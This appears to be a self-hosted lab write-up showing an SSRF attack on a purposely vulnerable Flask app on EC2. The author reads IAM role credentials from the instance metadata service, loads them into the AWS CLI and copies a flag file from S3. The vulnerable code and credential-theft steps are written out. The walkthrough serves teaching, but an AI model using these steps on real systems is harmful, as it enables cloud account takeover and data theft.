




In this lab we're going to simulate an SSRF attack and try to steal the credentials of an `IAM Role` in case they exist in the `IMDS`. We're going to spin up an EC2 hosting a web server built in `Flask` and write vulnerable code to practice this. It'll all be pretty simple so it should be quick.

I'm going to skip the EC2 creation steps since I don't think it's necessary here, we'll start from the point where we already have the EC2 running. So, with the Security Groups already configured, let's connect via `ssh`:
```cpp
svim @Burned in ~/Desktop/aws ❯ ssh root@3.233.237.194
Welcome to Ubuntu 26.04 LTS (GNU/Linux 7.0.0-1006-aws x86_64)

Last login: Wed Jul  1 20:30:19 2026 from 190.84.88.162
root@SSRF-LAB:~#
```
And we'll write a quick Flask app that's vulnerable to SSRF:
```cpp
root@SSRF-LAB:~/app# cat app.py
from flask import Flask, request
import requests

app = Flask(__name__)

@app.route("/")
def main():
    return "Main"

@app.route("/poc")
def poc():
    query = request.args.get('url')
    if not query:
        return "No query parameter"

    try:
        response = requests.get(query, timeout=5)
        return response.text
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=80,debug=True)

root@SSRF-LAB:~/app# python3 app.py
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.0.1.11:80
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 105-876-330
```
If we test the SSRF:



We can see everything's working fine. Now let's move on to exploitation.

Remember that the IMDS is an internal service that automatically runs on an EC2 the moment it's launched. That service is always going to be running whether it works or not depends on whether the instance has an `IAM Role` attached. In this case, I set up an `IAM Role` with permissions to read an `S3` bucket I created beforehand:
```cpp
svim @Burned in ~/Desktop ❯ aws s3 ls
2026-06-29 16:01:17 lab-ssrf-poc
svim @Burned in ~/Desktop ❯ aws s3 ls s3://lab-ssrf-poc
2026-06-29 16:05:32        134 credentials.txt
svim @Burned in ~/Desktop ❯

svim @Burned in ~/Desktop ❯ aws iam list-attached-role-policies --role-name 'ec2-role-s3'

{
    "AttachedPolicies": [
        {
            "PolicyName": "AmazonS3ReadOnlyAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AmazonS3ReadOnlyAccess"
        }
    ]
}
```
Our flag is going to be that `credentials.txt` object inside the S3 bucket. Now let's go test the SSRF.

Let's say we found an SSRF vector. The first thing we'd normally do is figure out what tech stack it's running on, whether it's Flask, Java, whatever but in this case since we already know it's an `EC2`, we can go straight to the point. To escalate privileges (usually towards an IAM Role) we need to send a request to `169.254.169.254`, which is where the IMDS always lives. Let's try it:



If we hit it, the IMDS service responds with the different metadata API versions, we've got versions ranging from `2007` all the way to `2026 / Latest`. What we actually care about is `Latest` (which is supposed to point to whatever IMDS version is currently running in this context), so let's make a request to `169.254.169.254/latest`:



And it responds with these 3 entries, let's use this table as a guide:
```cpp
http://169.254.169.254/
└── latest/                    ← always points to the most recent version
    ├── meta-data/             ← instance information
    │   ├── ami-id
    │   ├── instance-id
    │   ├── instance-type
    │   ├── local-ipv4
    │   ├── public-ipv4
    │   └── iam/
    │       └── security-credentials/
    │           └── ec2-role-s3   ← this is where the credentials you're after live
    │
    └── dynamic/               ← dynamic data generated at boot
        └── instance-identity/
            └── document       ← region, account info, etc.
```
If we follow the path:



We can see we're able to grab the identity of the `ec2-role-s3` role:
```Json
{
  "Code" : "Success",
  "LastUpdated" : "2026-07-01T22:08:10Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIAV5..SNIFF..5M26B6IL",
  "SecretAccessKey" : "jFrBjErE6..SNIFF..ztXLMhtOchU+LNJ",
  "Token" : "IQoJb3JpZ2luX2VjEB8aCXVzLWVhc3QtMSJHMEUCIFc5sPXAfrlXdP1cIB2thMCCVESaum/bckLFmZ3y3Kc3AiEAoFJzoghhSlc9+3aeANDmvJS+sSungmNSBSjcnFnP0KoqwQUI5///////////ARAAGgw0MDU5ODg4MjY1NjkiDJocN40oe1Knc/PmSSqVBXPyo9ehLAg..SNIFF..CFSkCnoy+D0kuVxd9VzwoZ+DqGF4xonyTw1P2uBuM1q8zXc3yGwUvT7W/w4sv/bvYlc74rZ7+85tf/ZKH0J6CXaONY5xcnlM1/ud3baOkzcn1lDhXhodzWMFt1VO814mpjDoI1CPg8YZeAhAqX..SNIFF..6tVPSqMjqMUt5AlUlv39e2/WBFXwwEcs7hFmaUMrqvaHCbP3WEOHQxbD73Wus+z2SgWnC8nfpfCUqQVAHgeY2WecHRBx1XxBq7lVoYQZ48yqOkGJ6hIhOTEO3QSNIPbHVA6l2+WBH1MNmqonfG3xZWyCJE5jf6K0Cv6kyVzGc8uYbWTiKBvrL7YHDxA7JpDeA76fUrNerxmqUCKNCqreb8xeXuVZBh5lWMYrncNF7zb..SNIFF..9Y2IJq6ZeiZ0w3p+W0gY6sQF5/teluvDHJtNdXUsqo3zl4mydvtyiOmQpBMuEjx4WBzaBDkoFY2vjCO8M4dXvVNywppwREq/XBZrcuxkvz4djUjBYSdC/5msohOJrCjywJURjGm8ZkOdiOp4mYC/JKXCZbK6s/Ca6ZF/EbQxm+6yq+iyPoBZ2EIYU+gtmwTkju3HufzkfTnNdkNHAXhF7ZgjCmw+QB4gW/ZcAyfcQdRW92ZV/T5kKjJWW2fv/Goon2pw=",
  "Expiration" : "2026-07-02T04:43:30Z"
}
```

Seeing that `"ASIA"` prefix in the `AccessKeyId` tells us these STS credentials are temporary, they belong to a Role, not an IAM user, so we've got a window of time to use them. Let's just drop them into `aws configure`:

```cpp
svim @Burned in ~/Desktop ❯ aws configure
AWS Access Key ID [****************6IWB]: ASIAV5..SNIFF..IFF5M26B6IL
AWS Secret Access Key [****************6ahQ]: jFrBjErE68Ban..SNIFF..tXLMhtOchU+LNJ
AWS Session Token [None]: IQoJb3JpZ2luX2VjEB8aCXVzLWVhc3QtMSJHMEUCIFc5sPXAfrlXdP1cIB2thMCCVESaum/bckLFmZ3y3Kc3AiEAoFJzoghhSlc9+3aeANDmvJS+sSungmNSBSjcnFnP0KoqwQUI5///////////ARAAGgw0MDU5ODg4MjY1NjkiDJocN40oe1Kn............SNIFFF........gAq048rdkCFSkCnoy+D0kuVxd9VzwoZ+DqGF4xonyTw1P2uBuM1q8zXc3yGwUvT7W/w4sv/bvYlc74rZ7+85tf/ZKH0J6CXaONY5xcnlM1/ud3baOkzcn1lDhXhodzWMFt1VO814mpjDgROmKVSBbakxl1VWL9CPA1+qlrR3ogsdeLKVxTp8z2EXgMLz+ZqGgSQTbMj17vkM3YpnAu+QmBZxUJ88FW1WFqYNDYJh9YJitgYtfJ2AAMqu4rSsKW2uj0xBeZf66qA2DE4jBocE............SNIFFF........xrVz21UxjIyLHMYlZKBXlnFYQ2rEestwEl+VskYX9cu9An5h88++kpOs5fk/W6IcTfyViq/ElQVsz96tVPSqMjqMUt5AlUlv39e2/WBFXwwEcs7hFmaU............SNIFFF........bD73Wus+z2SgWnC8nfpfCUqQVAHgeY2WecHRBx1XxBq7lVoYQZ48yqOkGJ6hIhOTEO3QSNIPbHVA6l2+WBH1MNmqonfG3xZWyCJE5jf6K0Cv6kyVzGc8uYbWTiKBvrL7YHDxA7JpDeA76fUrNerxmqUCKNCqreb8xeXuVZBh5lWMYrncNF7zbxI2vGw5fELXnW1lU7eBpJqafgMKMfVGqZG64ZgI5I2Es85dUu0W9rija8ovvXDVXRRtY33y6mNHJX5Yd............SNIFFF........CzR2/0pyBgh1pvD9Y2IJq6ZeiZ0w3p+W0gY6sQF5/teluvDHJtNdXUsqo3zl4mydvtyiOmQpBMuEjx4WBzaBDkoFY2vjCO8M4dXvVNywppwREq/XBZrcuxkvz4djUjBYSdC/5msohOJrCjywJURjGm8ZkOdiOp4mYC/JKXCZbK6s/Ca6ZF/EbQxm+6yq+iyPoBZ2EIYU+gtmwTkju3HufzkfTnNdkNHAXhF7ZgjCmw+QB4gW/ZcAyfcQdRW92ZV/T5kKjJWW2fv/Goon2pw=
Default region name [us-east-1]: us-east-1
Default output format [json]: json
svim @Burned in ~/Desktop ❯ aws s3 ls
2026-06-29 16:01:17 lab-ssrf-poc

svim @Burned in ~/Desktop ❯ aws sts get-caller-identity
{
    "UserId": "AROAV5BW..SNIFF..7ML6PMTV6:i-0f74066eb351db161",
    "Account": "405988826569",
    "Arn": "arn:aws:sts::405988826569:assumed-role/ec2-role-s3/i-0f74066eb351db161"
}
```
And there we go, we've got the credentials.
- Worth pointing out that stealing STS credentials via IMDS this way only works on version v1 (`IMDSv1`). If we wanted to pull this off on v2 (`IMDSv2`) we'd need a more sophisticated SSRF, since the `169.254.169.254` endpoint requires a `PUT` request first before you can continue the flow of extracting the STS keys.

And we got our flag:
```cpp
svim @Burned in ~/Desktop ❯ aws s3 cp s3://lab-ssrf-poc/credentials.txt .
download: s3://lab-ssrf-poc/credentials.txt to ./credentials.txt
󰣇 svim @Burned in ~/Desktop ❯ cat credentials.txt -l java -p
[aws_prod]
aws_access_key_id = AKIA6EXAMPLE123456
aws_secret_access_key = wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
region = us-east-1
svim @Burned in ~/Desktop ❯
```
